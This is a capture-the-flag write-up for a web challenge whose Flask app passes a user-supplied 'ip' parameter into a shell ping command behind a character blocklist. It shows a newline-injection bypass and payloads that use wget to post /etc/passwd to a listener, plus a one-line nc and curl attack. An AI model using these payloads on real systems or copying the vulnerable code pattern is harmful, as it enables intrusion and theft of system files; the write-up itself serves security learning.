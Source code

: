 ```yaml
---
title: "CYBEX - TakitoChall [ WEB ]"
date: 2022-02-27T18:35:38-05:00
draft: false
---
```


## Introduction

The objective of this challenge is to get an RCE, specifically to get the output of the `cat /etc/passwd` command.

```python
from flask import Flask
from flask import request
from os import system

app = Flask(__name__)

@app.route('/')
def rce():
    ip = request.args.get('ip')

    if ip is None:
        return 'Please use ?ip=127.0.0.1'

    for char in '&;|$()`':
        if char in ip:
            return 'Character {} is blocked'.format(char)

    system('ping -c 1 '+ip)
    return 'Ping sent'

if __name__ == '__main__':
    app.run()
```

Before starting the analysis we can notice at a glance that a ping is performed to the address we set in the `ip` parameter.

## First sight

When analyzing the code we notice that in line 14 we have several banned characters such as `&;|$()` and `. This is logical since command injection payloads usually carry these characters, as we can see in the following [link](https://github.com/payloadbox/command-injection-payload-list).

Another option we could try would be to convert them to another format such as base64, unicode, hexadecimal and various conversions that would help us achieve what we are looking for.

## Exploitation

In this case we are dealing with a CRLF injection. If you want to know more about this type of web vulnerability you can do so by clicking on the following [link](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) which will redirect you to the official HackTricks website which has a very good review about this bug.

Once we know what we are dealing with, we can now crack the following code by typing in the `ip=` parameter the following payload:

```
%0Aid
```

![image](https://user-images.githubusercontent.com/88755387/154855417-06bf8edb-aff1-407d-8ded-8e92254209a0.png)

![image](https://user-images.githubusercontent.com/88755387/154855372-70dc930a-1785-4137-99f7-ccaaa5774058.png)

As we can see we have taken the output in the log which would be on the server side but what we are looking for is to print the output on the screen so that the client can view it.

With the following command and raising the port 443 we can get the output to our machine:

```
%0Awget --post-file=/etc/passwd 127.0.0.1:443
```

![image](https://user-images.githubusercontent.com/88755387/154859783-dcaae268-dd39-4616-afbc-63b40e775a54.png)

One line payload:

```
nc -lvp 443 & curl 127.0.0.1:5000/?ip=%0Awget%20--post-file=/etc/passwd%20127.0.0.1:443
```

I hope you enjoyed it! :D
